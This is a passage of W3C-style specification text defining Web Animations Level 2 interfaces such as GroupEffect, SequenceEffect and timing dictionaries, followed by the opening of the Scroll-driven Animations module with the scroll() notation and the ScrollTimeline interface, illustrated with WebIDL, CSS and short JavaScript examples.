sorted earlier are executed before those sorted later.

### 4. Programming interface {#web-animations-2:programming-interface}

#### 4.1. The `AnimationTimeline` interface {#web-animations-2:the-animationtimeline-interface}

```webidl
[Exposed=Window]
partial interface AnimationTimeline {
    readonly attribute CSSNumberish? currentTime;
    readonly attribute CSSNumberish? duration;
    Animation play (optional AnimationEffect? effect = null);
};
```

Update the attribute type for currentTime.

****`currentTime`**,  of type CSSNumberish, readonly, nullable**

: Returns the current time for this timeline or `null` if this timeline is inactive. The value is expressed as a percentage for a progress-based timeline, or as a double in milliseconds otherwise.

****`duration`**,  of type CSSNumberish, readonly, nullable**

: Returns the duration for this timeline.

****`Animation play(optional AnimationEffect? effect = null)`****

: Creates a new `Animation` object associated with this timeline that begins playback as soon as it is ready.

  If *effect* is specified, it will be used as the animation’s associated effect.

  > **Issue:** It has been suggested this method be renamed, or even removed (see [TAG feedback](https://github.com/w3ctag/spec-reviews/blob/master/2013/10/Web%20Animations.md#issue-play-method)).

  > **Issue:** Need to define the start behavior when *effect* is null.

  The new `Animation` object is created using the `Animation()` constructor passing this `AnimationTimeline` object as the *timeline* parameter and *effect* as the *effect* parameter.

  Following construction of the `Animation` object, the procedure to play an animation is performed on the newly constructed object with the *auto-rewind* flag set to true.

  ****`effect`****

  : the associated effect to assign to the newly-created `Animation` object.

#### 4.2. The `Animation` interface {#web-animations-2:the-animation-interface}

Update the startTime and currentTime of the Animation interface, and add rangeStart, rangeEnd, and overallProgress as follows:

```webidl
[Exposed=Window]
partial interface Animation {
    attribute CSSNumberish?       startTime;
    attribute CSSNumberish?       currentTime;
    attribute AnimationTrigger?   trigger;
    attribute (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) rangeStart;
    attribute (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) rangeEnd;
    readonly attribute double? overallProgress;
};
```

Add or update attribute descriptions as follows:

****`startTime`**,  of type CSSNumberish, nullable**

: Update the description as:

  > The start time of this animation. When associated with a progress-based timeline, start time must be returned as a `CSSNumericValue` with percent units. Otherwise start time must be returned as a double value, representing the time in units of milliseconds. Setting this attribute updates the start time using the procedure to set the start time of this object to the new value.

****`currentTime`**,  of type CSSNumberish, nullable**

: update the description as:

  > The current time of this animation. When associated with a progress-based timeline, current time must be returned as a `CSSNumericValue`. with percent units. Otherwise current time must be returned as a double value, representing the time in units of milliseconds. Setting this attribute follows the procedure to set the current time of this object to the new value.

Add:

> ****`rangeStart`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`**
>
> : Specifies the start of the animation’s animation attachment range. Setting the attribute follows the same rules as the KeyframeAnimationOption rangeStart. When reading the attribute, the returned value is either a `TimelineRangeOffset` or the `DOMString` "normal".
>
> ****`rangeEnd`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`**
>
> : Specifies the end of the animation’s animation attachment range. Setting the attribute follows the same rules as the KeyframeAnimationOption rangeEnd. When reading the attribute, the returned value is either a `TimelineRangeOffset` or the `DOMString` "normal".
>
> ****`overallProgress`**,  of type double, readonly, nullable**
>
> : Specifies the overallProgress of the animation as a proportion of its associated effect end.
>
> ****`trigger`**,  of type AnimationTrigger, nullable**
>
> : Specifies the animation’s associated animation trigger. Setting the attribute follows the same rules as the KeyframeAnimationOption trigger.

#### 4.3. The `AnimationEffect` interface {#web-animations-2:the-animationeffect-interface}

```webidl
[Exposed=Window]
partial interface AnimationEffect {
    // Timing hierarchy
    readonly attribute GroupEffect?     parent;
    readonly attribute AnimationEffect? previousSibling;
    readonly attribute AnimationEffect? nextSibling;

    undefined before (AnimationEffect... effects);
    undefined after (AnimationEffect... effects);
    undefined replace (AnimationEffect... effects);
    undefined remove ();
};
```

****`getComputedTiming()`****

: The description of the `duration` attribute of the object needs to indicate that if `timing.duration` is the string `auto`, this attribute will return the current calculated value of the intrinsic iteration duration, which may be a expressed as a double representing the duration in milliseconds or a percentage when the effect is associated with a progress-based timeline.

****`parent`**,  of type GroupEffect, readonly, nullable**

: The parent group of this animation effect or `null` if this animation effect does not have a parent group.

  > **Issue:** Should this be `parentGroup`?

****`previousSibling`**,  of type AnimationEffect, readonly, nullable**

: The previous sibling of this animation effect.

****`nextSibling`**,  of type AnimationEffect, readonly, nullable**

: The next sibling of this animation effect.

****`undefined before (AnimationEffect... effects)`****

: Inserts *effects* before this animation effect.

  1. If there is no parent group, abort these steps.
  2. If any of the animation effects in *effects* is an inclusive ancestor of this animation effect, throw a HierarchyRequestError exception and abort these steps.
  3. Insert *effects* before this animation effect.

  > **Note:** that this definition precludes the following usage since `effect` is an inclusive ancestor of itself:
  >
  > ```javascript
  > effect.before(effect); // throws HierarchyRequestError
  > ```

****`undefined after(AnimationEffect... effects)`****

: Inserts *effects* after this animation effect.

  1. If there is no parent group, abort these steps.
  2. If any of the animation effects in *effects* is an inclusive ancestor of this animation effect, throw a HierarchyRequestError exception and abort these steps.
  3. Let *reference child* be the next sibling of this animation effect not in *effects*.
  4. Insert *effects* before *reference child*.

****`undefined replace(AnimationEffect... effects)`****

: Replaces this `AnimationEffect` with the passed in *effects*.

  1. If there is no parent group, abort these steps.
  2. If any of the animation effects in *effects* is an inclusive ancestor of the parent group throw a HierarchyRequestError exception and abort these steps.
  3. Let *reference child* be the next sibling of this animation effect not in *effects*.
  4. Remove this animation effect from its parent group.
  5. Insert *effects* before *reference child*.

****`undefined remove()`****

: Removes this animation effect from its parent group or animation.

> **Issue:** The `remove()` method can be used to remove an effect from either its parent group or animation. Should we keep it in level 1 and define it simply as removing the animation from its animation?

#### 4.4. The `EffectTiming` and `OptionalEffectTiming` dictionaries {#web-animations-2:the-effecttiming-dictionaries}

```webidl
partial dictionary EffectTiming {
    double delay;
    double endDelay;
    double playbackRate = 1.0;
    (unrestricted double or CSSNumericValue or DOMString) duration = "auto";
};

partial dictionary OptionalEffectTiming {
    double playbackRate;
};
```

> **Note:** In this version of the spec, duration is not settable as a CSSNumericValue; however, duration may be returned as a CSSNumericValue when resolving the duration in `getComputedTiming()`. Future versions of the spec may enable setting the duration as a `CSSNumericValue`, where the unit is a valid time unit or percent.

****`delay`**,  of type double**

: Update the description as:

  > The **specified start delay** which represents the number of milliseconds from an animation effect’s start time to the start of the active interval. The *specified start delay* is converted to a start delay following the normalize specified timing procedure.

****`endDelay`**,  of type double**

: Update the description as:

  > The **specified end delay** which represents the number of milliseconds from the end of an animation effect’s active interval until the start time of any animation effect that may follow, for example, in a sequence effect. The *specified end delay* is converted to an end delay following the normalize specified timing procedure.

**The `fill` and `fill` members**

: Replace:

  > When performing timing calculations the special string value `auto` is expanded to none.

  with:

  > When performing timing calculations the special string value `auto` is expanded to one of the fill modes recognized by the timing model as follows:
  >
  > **If the animation effect to which the fill mode is being applied is a keyframe effect,**
  >
  > : Use none as the fill mode.
  >
  > **Otherwise,**
  >
  > : Use both as the fill mode.

****`duration`**,  of type `(unrestricted double or CSSNumericValue or DOMString)`, defaulting to `"auto"`**

: Update the description as:

  > The **specified iteration duration** which is a real number greater than or equal to zero (including positive infinity) representing the time taken in milliseconds to complete a single iteration of the animation effect, or the string value `auto` to indicate that the iteration duration reflects the animation effect’s intrinsic iteration duration. The *specified iteration duration* is converted to an iteration duration following the normalize specified timing procedure.

****`playbackRate`**,  of type double, defaulting to `1.0`**

: The animation effect’s playback rate property which is a multiplier applied to the local time potentially causing the effect to run at a different rate to its natural speed.

#### 4.5. Updating the timing of an AnimationEffect {#web-animations-2:updating-animationeffect-timing}

Replace:

> Assign each member that exists in *input* to the corresponding timing property of *effect* as follows:
>
> - `delay` → start delay
> - `endDelay` → end delay
> - `fill` → fill mode
> - `iterationStart` → iteration start
> - `iterations` → iteration count
> - `duration` → iteration duration
> - `direction` → playback direction
> - `easing` → timing function

with:

> Assign each member that exists in *input* to the corresponding timing property of *effect* as follows:
>
> - `delay` → specified start delay
> - `endDelay` → specified end delay
> - `fill` → fill mode
> - `iterationStart` → iteration start
> - `iterations` → iteration count
> - `duration` → specified iteration duration
> - `direction` → playback direction
> - `easing` → timing function

Add:

> Follow the procedure to normalize specified timing.
>
> > **Note:** Timing properties may also be updated due to a style change. Any change to a CSS animation property that affects timing requires rerunning the procedure to normalize specified timing.

#### 4.6. The `ComputedEffectTiming` dictionary {#web-animations-2:the-computedeffecttiming-dictionary}

```webidl
partial dictionary ComputedEffectTiming {
    CSSNumberish         startTime;
    CSSNumberish         endTime;
    CSSNumberish         activeDuration;
    CSSNumberish?        localTime;
};
```

****`startTime`**,  of type CSSNumberish**

: The start time of this animation effect expressed as a percentage if associated with a progress-based timeline, or as a double in milliseconds otherwise.

  This is the time at which the parent group, if any, has scheduled this child to run within its transformed time space, that is, the animation effect’s inherited time space.

  The start of the active interval is based on the sum of the start time and start delay.

****`endTime`**,  of type CSSNumberish**

: Update the description as:

  > The end time of the animation effect in inherited timespace. The value is expressed as a percentage if associated with a progress-based timeline, or as a double in milliseconds otherwise. This corresponds to the end of the animation effect’s active interval plus any end delay.

****`activeDuration`**,  of type CSSNumberish**

: Update the description as:

  > The active duration of this animation effect expressed as a percentage if associated with a progress-based timeline, or as a double in milliseconds otherwise.

****`localTime`**,  of type CSSNumberish, nullable**

: Update the second paragraph as:

  > This will be `null` if this animation effect is not associated with an animation or if it has a parent group that is not in effect.

  Append:

  > The value is expressed as a percentage if associated with a progress-based timeline, or as a double in milliseconds otherwise.

##### 4.6.1. The `FillMode` enumeration {#web-animations-2:the-fillmode-enumeration}

```webidl
enum FillMode { "none", "forwards", "backwards", "both", "auto" };
```

**`auto`**

: Update the description as:

  > Fill backwards and forwards when applied to a `GroupEffect` and no fill when applied to a `KeyframeEffect`.

#### 4.7. The `GroupEffect` interface {#web-animations-2:the-groupeffect-interface}

(This section is added.)

Group effects are represented by the `GroupEffect` interface.

```webidl
[Exposed=Window]
interface GroupEffect {
  constructor(sequence<AnimationEffect>? children,
              optional (unrestricted double or EffectTiming) timing = {});

  readonly attribute AnimationNodeList  children;
  readonly attribute AnimationEffect?   firstChild;
  readonly attribute AnimationEffect?   lastChild;
  GroupEffect clone ();

  undefined prepend (AnimationEffect... effects);
  undefined append (AnimationEffect... effects);
};
```

****`GroupEffect ()`****

: Creates a new `GroupEffect` object using the following procedure:

  1. Create a new `GroupEffect` object, *group*.
  2. Let *timing input* be the result of applying the procedure to process a timing argument to `timing`.
  3. Let *timing input* be the result corresponding to the first matching condition from below.

     **If *options* is an `EffectTiming` object,**

     : Let *timing input* be *options*.

     **Otherwise (if *options* is a `double`),**

     : Let *timing input* be a new `EffectTiming` object with all members set to their default values and `duration` set to *options*.
  4. Call the procedure to update the timing properties of an animation effect of *group* from *timing input*.

     If that procedure causes an exception to be thrown, propagate the exception and abort this procedure.
  5. Insert `children` before `null`.

  ****`children`****

  : A sequence of animation effects to add as children of this group.

    These children are appended in sequence using the same semantics as the `append()` method of the `GroupEffect` interface.

  ****`timing`****

  : The timing properties or iteration duration of the new group effect.

****`children`**,  of type AnimationNodeList, readonly**

: The list of child effects in the group.

****`firstChild`**,  of type AnimationEffect, readonly, nullable**

: The first child of this group effect.

****`lastChild`**,  of type AnimationEffect, readonly, nullable**

: The last child of this group effect.

**undefined prepend (AnimationEffect... effects)**

: 1. If any of the animation effects in *effects* is an inclusive ancestor of this animation effect, throw a HierarchyRequestError exception and abort these steps.
  2. Insert *effects* before the first child.

****`undefined append (AnimationEffect... effects)`****

: 1. If any of the animation effects in *effects* is an inclusive ancestor of this animation effect, throw a HierarchyRequestError exception and abort these steps.
  2. Insert *effects* before `null`.

****`GroupEffect clone ()`****

: Creates a deep copy of this `GroupEffect` object using the following procedure.

  1. Let *source* be this `GroupEffect` object, the object to be cloned.
  2. Let *cloned timing* be a new `EffectTiming` object whose members are assigned the value of the attribute with the same name on `source.getTiming()`.
  3. Let *cloned children* be an empty sequence of `AnimationEffect` objects.
  4. For each *child* in `source.children`, append the result of calling `child.clone()` to *cloned children*.
  5. Return a new `GroupEffect` object created by calling the `GroupEffect()` constructor with parameters `GroupEffect(cloned children, cloned timing)`.

##### 4.7.1. Processing a `timing` argument {#web-animations-2:processing-a-timing-argument}

The *timing* parameter passed to the `GroupEffect()` or `SequenceEffect()` constructor may be an `EffectTiming` object, a double representing the duration of the animation effect in milliseconds, or undefined.

The following procedure to **process a timing argument**, *timing*, normalizes the above inputs into a `EffectTiming` object.

**If *timing* is an `EffectTiming` object,**

: Return *timing*.

**If *timing* is a `double`,**

: Return a new `EffectTiming` object with all members set to their default values and `duration` set to *timing*.

**Otherwise (*timing* is undefined),**

: Return a new `EffectTiming` object with all members set to their default values.

##### 4.7.2. Definitions for manipulating hierarchies {#web-animations-2:definitions-for-manipulating-hierarchies}

The **next sibling of *effect* not included** in a set of animation effects, *effects* is determined using the following steps:

1. Let *context effect* be *effect*.
2. While the next sibling of *context effect* is not `null` perform the following steps:

  1. Let *context effect* be the next sibling of *context effect*.
  2. If *context effect* is not in *effects* return *context effect* and abort these steps.
3. Return `null`.

To **remove** a *effect* from its parent group or animation, perform the steps corresponding to the first matching condition from below, if any:

**If *effect* has a parent group,**

: Remove *effect* from the parent group’s list of child effects.

**If *effect* is directly associated with an animation,**

: Disassociate *effect* from the animation.

To **insert** a series of zero or more animation effects, *effects*, to *parent*’s list of child effects before *reference child* perform the following steps for each *effect* in *effects*:

1. Remove *effect* from its parent.
2. Insert *effect* to *parent*’s list of child effects before *reference child*

#### 4.8. The `AnimationNodeList` interface {#web-animations-2:the-animationnodelist-interface}

A list of animation effects may be represented by an `AnimationNodeList`.

The `AnimationNodeList` interface supports indexed properties with indices in the range 0 ≤ *index* < `length`.

> **Note:** The only reason this interface exists is to provide a familiar experience for authors familiar with DOM interfaces where child nodes are accessed via a `children` member.

```webidl
[Exposed=Window]
interface AnimationNodeList {
    readonly attribute unsigned long length;
    getter AnimationEffect? item (unsigned long index);
};
```

****`length`**,  of type unsigned long, readonly**

: The number of animation effects in the list.

****`getter AnimationEffect? item(unsigned long index)`****

: Returns the animation effect at `index`. If `index` is greater than or equal to `length` returns `null`.

#### 4.9. The `SequenceEffect` interfaces {#web-animations-2:the-sequenceeffect-interface}

Sequence effects are represented by the `SequenceEffect` interface.

```webidl
[Exposed=Window]
interface SequenceEffect : GroupEffect {
  constructor(sequence<AnimationEffect>? children,
              optional (unrestricted double or EffectTiming) timing = {});

  SequenceEffect clone ();
};
```

****`constructor (sequence<AnimationEffect>? children, optional (unrestricted double or EffectTiming) timing)`****

: The meaning and handling of each of the parameters in this constructor is identical to the `GroupEffect()` constructor.

****`SequenceEffect clone ()`****

: Creates a deep copy of this `SequenceEffect` object using the same procedure as defined for the `clone()` method of the `GroupEffect` interface except that a new `SequenceEffect` object is created.

#### 4.10. The `KeyframeEffect` interfaces {#web-animations-2:the-keyframeeffect-interface}

The `KeyframeEffect` interface is modified to add the following:

```webidl
partial interface KeyframeEffect {
    attribute IterationCompositeOperation    iterationComposite;
};
```

****`KeyframeEffect (target, keyframes, options)`****

: Amend step 5 of the procedure to create a new `KeyframeEffect` object as follows:

  1. If *options* is a `KeyframeEffectOptions` object, assign the `iterationComposite`, and `composite`, properties of *effect* to the corresponding value from *options*.

     When assigning these properties, the error-handling defined for the corresponding setters on the `KeyframeEffect` interface is applied. If any of those setters require an exception to be thrown for the values specified by *options*, this procedure must throw the same exception and abort all further steps.

****`KeyframeEffect (source)`****

: Amend the procedure to create a new `KeyframeEffect` object with the same properties as `source` to include setting the iteration composite operation from *source* on *effect*.

****`iterationComposite`**,  of type IterationCompositeOperation**

: The iteration composite operation property of this keyframe effect as specified by one of the IterationCompositeOperation enumeration values.

  On setting, sets the iteration composite operation property of this animation effect to the provided value.

##### 4.10.1. Creating a new `KeyframeEffect` object {#web-animations-2:creating-a-new-keyframeeffect-object}

*This section is non-normative*

Replace:

> If the duration is not specified, a value of zero is used.

with:

> If the duration is not specified, the intrinsic iteration duration is used.

Add:

> This is particularly useful in combination with other animation effects. For example, fading an element before switching `visibility` to ‘hidden’ can be achieved as follows,

> **Example:** ```javascript
> new SequenceEffect(
>   [
>     new KeyframeEffect(elem, { opacity: 0 }, 1000),
>     new KeyframeEffect(elem, { visibility: 'hidden' }, { fill: 'forwards' })
>   ]
> );
> ```

##### 4.10.2. Modification to the `*Keyframe` dictionaries {#web-animations-2:keyframe-offset-type}

The `double?` type of the `offset` key in `ComputedKeyframe`, `BaseComputedKeyframe`, `BaseKeyframe`, `BasePropertyIndexedKeyframe`, etc. is replaced by `(CSSNumberish? or TimelineRangeOffset or DOMString)`, where `double` continues to be interpreted as a percentage, a `DOMString` is parsed into a `TimelineRangeOffset` according to the syntax of `<keyframe-selector>`, and the resulting `TimelineRangeOffset` or `CSSNumericValue` is interpreted as defined for `@keyframes`.

If the `DOMString` fails to parse as a valid `<keyframe-selector>`, then the keyframe is invalid, and will throw a TypeError when [processed](#web-animations-1:processing-a-keyframes-argument) (same as if the `double` value was outside the [0,1] range).

##### 4.10.3. The KeyframeEffectOptions dictionary {#web-animations-2:the-keyframeeffectoptions-dictionary}

The `KeyframeEffectOptions` dictionary interface is modified to add the following member:

```webidl
partial dictionary KeyframeEffectOptions {
    IterationCompositeOperation iterationComposite = "replace";
};
```

****`iterationComposite`**,  of type IterationCompositeOperation, defaulting to `"replace"`**

: The iteration composite operation used to define the way animation values build from iteration to iteration.

#### 4.11. The IterationCompositeOperation enumeration {#web-animations-2:the-iterationcompositeoperation-enumeration}

The possible values of an animation effect’s iteration composite operation are represented by the **IterationCompositeOperation** enumeration.

```webidl
enum IterationCompositeOperation { "replace", "accumulate" };
```

**`replace`**

: Corresponds to the replace iteration composite operation value such that the effect value produced is independent of the current iteration.

**`accumulate`**

: Corresponds to the accumulate iteration composite operation value such that subsequent iterations of an animation effect build on the final value of the previous iteration.

#### 4.12. The `EffectCallback` callback function {#web-animations-2:the-effectcallback-callback-function}

Custom effects can be defined in script by providing an `EffectCallback` callback function. callback **`EffectCallback`** = undefined (double? **`progress`**, (Element or CSSPseudoElement) **`currentTarget`**, Animation **`animation`**);  An `EffectCallback` is called each time an `KeyframeEffect` object with which it is associated is updated.   double? progress  The iteration progress value for which to produce an effect. When this is `null`, the function SHOULD remove the effect. (Element or CSSPseudoElement) currentTarget  The target element on which this callback is expected to operate.  Note that *currentTarget* may differ from `animation.target`. If the target element of *animation* is changed between updates, this method will be called once with a null *progress* and the previous target element as the *currentTarget*, then again with the current *progress* and the updated target element as the *currentTarget*. This allows the animation effect to be removed from the old target element.  Animation animation  The `Animation` object that is being updated.

#### 4.13. The `Animatable` interface {#web-animations-2:the-animatable-interface}

****`sequence<Animation> getAnimations(options)`****

: Add:

  > If this object is the target element of two or more animation effects which are associated with the same animation, the corresponding `Animation` object will still only appear in the returned list once.

#### 4.14. The `Animatable` interface mixin {#web-animations-2:the-animatable-interface-mixin}

The `KeyframeAnimationOptions` dictionary interface is modified to add the following members:

```webidl
dictionary TimelineRangeOffset {
  CSSOMString? rangeName;
  CSSNumericValue offset;
};

partial dictionary KeyframeAnimationOptions {
    (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) rangeStart = "normal";
    (TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString) rangeEnd = "normal";
    AnimationTrigger? trigger;
};
```

****`rangeStart`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`, defaulting to `"normal"`**

: If present and not "normal", specifies the start of the animation’s animation attachment range. A `DOMString` value is parsed as an `animation-range-end` value to yield a `TimelineRangeOffset` `rangeName` and `offset` or alternatively a `CSSKeywordValue` with the `value` of "normal"; a `CSSNumericValue` is interpreted as a `TimelineRangeOffset` with that `offset` and a null `rangeName`.

****`rangeEnd`**,  of type `(TimelineRangeOffset or CSSNumericValue or CSSKeywordValue or DOMString)`, defaulting to `"normal"`**

: If present and not "normal", specifies the end of the animation’s animation attachment range. A `DOMString` value is parsed as an `animation-range-end` value to yield a `TimelineRangeOffset` `rangeName` and `offset`; a `CSSNumericValue` is interpreted as a `TimelineRangeOffset` with that `offset` and a null `rangeName`.

Passing a `CSSKeywordValue` with a `value` other than "normal" as the `rangeStart` or `rangeEnd` value to any API defined to accept `KeyframeAnimationOptions` throws a TypeError.

> **Note:** The `rangeName` and `offset` values of `rangeStart` and `rangeEnd` are interpreted as defined for `animation-range-start`/`animation-range-end`, and affect the animation accordingly.

See [Web Animations § 6.8 The Animatable interface mixin](#web-animations-1:the-animatable-interface-mixin) for further description.

#### 4.15. The `AnimationPlaybackEvent` interface {#web-animations-2:the-animationplaybackevent-interface}

Replace double with CSSNumberish as the type for currentTime and timelineTime.

```webidl
[Exposed=Window]
interface AnimationPlaybackEvent : Event {
    constructor(DOMString type, optional AnimationPlaybackEventInit
    eventInitDict = {});
    readonly attribute CSSNumberish? currentTime;
    readonly attribute CSSNumberish? timelineTime;
};
dictionary AnimationPlaybackEventInit : EventInit {
    CSSNumberish? currentTime = null;
    CSSNumberish? timelineTime = null;
};
```

Update the type for the AnimationPlaybackEvent attributes.

****`currentTime`**,  of type CSSNumberish, readonly, nullable**

: The current time of the animation that generated the event at the moment the event as queued. This will be `null` if the animation was idle at the time the event was generated.

****`timelineTime`**,  of type CSSNumberish, readonly, nullable**

: The time value of the timeline with which the animation that generated the event is associated at the moment the event was queued. This will be `null` if the animation was not associated with an active timeline at the time the event was queued.

Update the type for the AnimationPlaybackEventInit members.

****`currentTime`**,  of type CSSNumberish, nullable, defaulting to `null`**

: See the description of the `currentTime` attribute.

****`timelineTime`**,  of type CSSNumberish, nullable, defaulting to `null`**

: See the description of the `timelineTime` attribute.

#### 4.16. Model liveness {#web-animations-2:model-liveness}

*This section is non-normative*

Regarding the section on, “ Changes made to the Web Animations model take effect immediately”, add:

> The same concept applies to more complex modifications of the Web Animations model such as adding and removing children from an `GroupEffect`.

Add:

> **Changes made to the model using the programming interface do *not* cause any `EffectCallback` functions to be called**
>
> : For example, in the following code, the callback function will not be called until *after* the script block has completed during regular updating.
>
>   > **Example:** ```javascript
>   > var timesCalled = 0;
>   > elem.animate(function() {
>   >   timesCalled++;
>   > }, 10000);
>   > alert(timesCalled); // Displays ‘0’
>   > ```
>
>   > **Note:** Need to spec this properly somewhere.

---

## Scroll-driven Animations Module Level 1 {#scroll-animations-1}

- **Shortname:** `scroll-animations-1`
- **Editor's Draft:** [https://drafts.csswg.org/scroll-animations-1/](https://drafts.csswg.org/scroll-animations-1/)
- **Published TR:** [https://www.w3.org/TR/scroll-animations-1/](https://www.w3.org/TR/scroll-animations-1/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-09-25

### 1. Introduction {#scroll-animations-1:intro}

This specification defines mechanisms for driving the progress of an animation based on the scroll progress of a scroll container. These **scroll-driven animations** use a timeline based on scroll position, rather than one based on clock time. This module provides both an imperative API building on the Web Animations API as well as a declarative API building on CSS Animations. [WEB-ANIMATIONS-1]

There are two types of **scroll-driven timelines**:

- [Scroll Progress Timelines](#scroll-animations-1:scroll-timelines), which are linked to the scroll progress of a particular scroll container
- [View Progress Timelines](#scroll-animations-1:view-timelines), which are linked to the view progress of a particular box through a scrollport

> **Note:** Scroll-*driven* animations, whose progress is linked to the scroll position, are distinct from scroll-*triggered* animations, which are triggered by a scroll position, but whose progress is driven by time.

#### 1.1. Relationship to other specifications {#scroll-animations-1:other-specs}

Web Animations [WEB-ANIMATIONS-1] defines an abstract conceptual model for animations on the Web platform, with elements of the model including animations and their timelines, and associated programming interfaces. This specification extends the Web Animations model by defining scroll-driven timelines and allowing them to drive progress in animations to create scroll-driven animations.

This specification introduces both programming interfaces for interacting with these concepts, as well as CSS properties that apply these concepts to CSS Animations [CSS-ANIMATIONS-1]. To the extent the behavior of these CSS properties is described in terms of the programming interfaces, User agents that do not support scripting may still conform to this specification by implementing the CSS features to behave as if the underlying programming interfaces were in place.

Like most operations in CSS besides selector matching, features in this specification operate over the flattened element tree.

#### 1.2. Relationship to asynchronous scrolling {#scroll-animations-1:async-scrolling}

Some user agents support scrolling that is asynchronous with respect to layout or script. This specification is intended to be compatible with such an architecture.

Specifically, this specification allows expressing scroll-driven effects in a way that does not require script to run each time the effect is sampled. User agents that support asynchronous scrolling are allowed (but not required) to sample such effects asynchronously as well.

#### 1.3. Value Definitions {#scroll-animations-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Scroll Progress Timelines {#scroll-animations-1:scroll-timelines}

**Scroll progress timelines** are timelines linked to progress in the scroll position of a scroll container along a scrollable axis. The startmost scroll position represents 0% progress and the endmost scroll position represents 100% progress.

Scroll progress timelines can be referenced in `animation-timeline` anonymously using the `scroll()` functional notation or by name (see [§ 4.2 Named Timeline Scoping and Lookup](#scroll-animations-1:timeline-scoping)) after declaring them using the `scroll-timeline` properties. In the Web Animations API, they can be represented anonymously by a `ScrollTimeline` object.

#### 2.1. Calculating Progress for a Scroll Progress Timeline {#scroll-animations-1:scroll-timeline-progress}

Progress (the current time) for a scroll progress timeline is calculated as: *scroll offset* ÷ (*scrollable overflow size* − *scroll container size*)

If the 0% position and 100% position coincide (i.e. the denominator in the current time formula is zero), the timeline is inactive.

In paged media, scroll progress timelines that would otherwise reference the document viewport are also inactive.

#### 2.2. Anonymous Scroll Progress Timelines {#scroll-animations-1:scroll-timelines-anonymous}

##### 2.2.1. The `scroll()` notation {#scroll-animations-1:scroll-notation}

The **scroll()** functional notation can be used as a `<single-animation-timeline>` value in `animation-timeline` and specifies a scroll progress timeline. Its syntax is

```css
<scroll()> = scroll( [ <scroller> || <axis> ]? )
<axis> = block | inline | x | y
<scroller> = root | nearest | self
```

By default, `scroll()` references the block axis of the nearest ancestor block-axis scroll container. Its arguments modify this lookup as follows:

****block****

: Specifies to use the measure of progress along the block axis of the block-axis scroll container. (Default.)

****inline****

: Specifies to use the measure of progress along the inline axis of the inline-axis scroll container.

****x****

: Specifies to use the measure of progress along the horizontal axis of the x-axis scroll container.

****y****

: Specifies to use the measure of progress along the vertical axis of the y-axis scroll container.

****nearest****

: Specifies to use the nearest ancestor scroll container with an appropriate scrollable axis (Default.)

****root****

: Specifies to use the document viewport as the scroll container.

****self****

: Specifies to use the element’s own principal box as the scroll container. If the principal box is not a scroll container in the appropriate axis, then the scroll progress timeline is inactive.

> **Note:** Progress is in reference to the scroll origin, which can flip depending on writing mode, even when `x` or `y` is specified.

References to the root element propagate to the document viewport (which functions as its scroll container).

> **Example:** Consider the following style sheet and markup:
>
> ```css
> @keyframes change-background {
>   from { background-color: aliceblue; }
>   to { background-color: cornflowerblue; }
> }
>
> .subject {
>   animation: change-background linear both;
>   /* Use an anonymous scroll progress timeline to drive the animation */
>   animation-timeline: scroll();
> }
> ```
>
> ```html
> <html>
>   …
>   <body>
>     <!-- Note: .scroller is a scrollable box -->
>     <div class="scroller">
>       …
>       <div class="subject">Animation Subject</div>
>       …
>     </div>
>   </body>
> </html>
> ```
>
> The `.subject`‘s animation is set up to be driven by an anonymous Scroll progress timeline created with `scroll()`. Because no `<scroller>` or `<axis>` are passed into the function, the default values of `nearest` and `block` respectively are used.
>
> Because `.scroller` is the nearest ancestor scroll container, this results in the `.scroller` element driving the animation: as you scroll `.scroller` up and down, the subject’s animations progress moves forwards or backwards in direct response.
>
> This results in the `background-color` being `aliceblue` when at the start of the scroller and `cornflowerblue` when scrolled to the very end. Intermediary scroll positions results in an interpolated value.

> **Example:** Building on the previous example, changing the `animation-timeline` to the following results in the document viewport driving the animation progress.
>
> ```css
> .subject {
>   animation: change-background linear both;
>   animation-timeline: scroll(root);
> }
> ```

> **Example:** The following declarations for `animation-timeline` are all equivalent but some are more explicit about what to target:
>
> ```css
> /* These all are equivalent */
> animation-timeline: scroll();
> animation-timeline: scroll(block);
> animation-timeline: scroll(nearest);
> animation-timeline: scroll(block nearest);
> animation-timeline: scroll(nearest block);
> ```
>
> This is because the default values for `<scroller>` and `<axis>` are `nearest` and `block` respectively.

> **Example:** To animate the scroller itself, use the `self` keyword as the `<scroller>`
>
> ```css
> @keyframes change-color {
>   from { color: black; }
>   to { color: hotpink; }
> }
>
> .subject {
>   animation: change-color linear both;
>   /* Use an anonymous scroll progress timeline to drive the animation */
>   animation-timeline: scroll(self);
> }
> ```

Each use of `scroll()` corresponds to its own instance of `ScrollTimeline` in the Web Animations API, even if multiple elements use `scroll()` to refer to the same scroll container with the same arguments.

##### 2.2.2. The `ScrollTimeline` Interface {#scroll-animations-1:scrolltimeline-interface}

```webidl
enum ScrollAxis {
  "block",
  "inline",
  "x",
  "y"
};

dictionary ScrollTimelineOptions {
  Element? source;
  ScrollAxis axis = "block";
};

[Exposed=Window]
interface ScrollTimeline : AnimationTimeline {
  constructor(optional ScrollTimelineOptions options = {});
  readonly attribute Element? source;
  readonly attribute ScrollAxis axis;
};
```

A `ScrollTimeline` is an `AnimationTimeline` that represents a scroll progress timeline. It can be passed to the `Animation` constructor or the `animate()` method to link the animation to a scroll progress timeline.

****`source`**,  of type Element, readonly, nullable**

: The scroll container element whose scroll position drives the progress of the timeline.

****`axis`**,  of type ScrollAxis, readonly**

: The axis of scrolling that drives the progress of the timeline. See value definitions for `<axis>`, above.

Inherited attributes:

**`currentTime` (inherited from `AnimationTimeline`)**

: Represents the scroll progress of the scroll container as a percentage CSSUnitValue, with 0% representing its startmost scroll position (in the writing mode of the scroll container). Null when the timeline is inactive.

